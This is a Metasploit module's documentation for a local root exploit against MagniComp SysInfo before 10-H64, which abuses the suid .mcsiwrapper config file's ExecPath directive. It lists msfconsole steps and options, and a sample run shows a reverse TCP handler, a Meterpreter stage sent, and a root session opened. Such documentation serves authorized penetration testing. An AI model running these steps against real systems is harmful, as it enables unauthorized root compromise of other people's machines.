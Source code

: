 ## Description

  This module attempts to gain root privileges on systems running MagniComp SysInfo versions prior to 10-H64.


## Vulnerable Application

  [MagniComp SysInfo](https://www.magnicomp.com/sysinfo/) is a single system agent and viewer providing extensive IT asset inventory and configuration information for most major Linux, UNIX, Apple Macintosh, and Microsoft Windows platforms as well as leading NAS and SAN Storage Systems and logical volume software solutions.

  The `.mcsiwrapper` suid executable allows loading a config file using the `--configfile` argument. The `ExecPath` config directive is used to set the executable load path. This module abuses this functionality to set the load path resulting in execution of arbitrary code as root.

  This module has been tested successfully on SysInfo:

  * 10-H63 on Fedora 20 x86_64
  * 10-GA on Solaris 10u11 x86

  Installers:

  * https://www.magnicomp.com/cgi-bin/mcdownload.cgi
  * https://www.magnicomp.com/cgi-bin/mcdownload.cgi/Action=ListDDF


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/multi/local/magnicomp_sysinfo_mcsiwrapper_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `check`
  6. Do: `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **SYSINFO_DIR**

  Path to SysInfo directory (default: `/opt/sysinfo`)

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ```
  msf > use exploit/multi/local/magnicomp_sysinfo_mcsiwrapper_priv_esc 
  msf exploit(multi/local/magnicomp_sysinfo_mcsiwrapper_priv_esc) > set session 1
  session => 1
  msf exploit(multi/local/magnicomp_sysinfo_mcsiwrapper_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.244:4444 
  [*] Using target: Linux
  [*] Writing '/tmp/.0rk4PC/vFdxxuBVkh' (21 bytes) ...
  [*] Writing '/tmp/.0rk4PC/eoGVzYwGa' (207 bytes) ...
  [*] Executing payload...
  [*] Sending stage (857352 bytes) to 172.16.191.137
  [*] Meterpreter session 2 opened (172.16.191.244:4444 -> 172.16.191.137:42229) at 2018-02-05 07:38:35 -0500
  [+] Deleted /tmp/.0rk4PC/vFdxxuBVkh
  [+] Deleted /tmp/.0rk4PC/eoGVzYwGa
  [+] Deleted /tmp/.0rk4PC

  meterpreter > getuid
  Server username: uid=0, gid=1000, euid=1000, egid=1000
  meterpreter > sysinfo
  Computer     : localhost.localdomain
  OS           : Fedora 20 (Linux 3.19.8-100.fc20.x86_64)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

